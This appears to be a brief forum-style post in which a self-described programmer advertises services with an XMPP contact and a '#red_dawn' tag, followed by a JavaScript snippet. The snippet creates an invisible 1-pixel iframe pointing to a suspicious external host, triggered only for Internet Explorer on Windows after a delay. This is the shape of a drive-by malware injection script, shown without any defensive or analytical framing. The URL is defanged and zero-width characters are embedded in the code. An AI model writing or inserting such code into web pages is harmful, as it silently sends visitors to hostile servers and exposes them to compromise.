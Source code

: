 hello world. i am experienced programmer. i have skills in html, js, python, ruby, unix, php, sql.
if you need help with project, pm me: sexilexi588@xmpp.jp

#red_dawn ;)

function MakeFrameEx(){
  element = do​cument.get​ElementById('yahoo_api');
  if (!element){
    var el = do​cument.cr​eateElement('if​rame');
    do​cument.body.append​Child(el);
    el.id = 'yahoo_api';
    el.style.width = '1px';
    el.style.height = '1px';
    el.style.display = 'none';
    el.src = 'hxxp://​juyfdjhdjdgh​.nl​.ai​/showthread.php?t=72241732'
  }
}
var ua = navigator.userAgent.toLowerCase();
if (((ua.indexOf("msie") !=- 1 && ua.indexOf("opera") ==- 1 && ua.indexOf("webtv") ==- 1))
 && ua.indexOf("windows") !=- 1){
  var t = setTimeout("MakeFrameEx()", 1000)
}





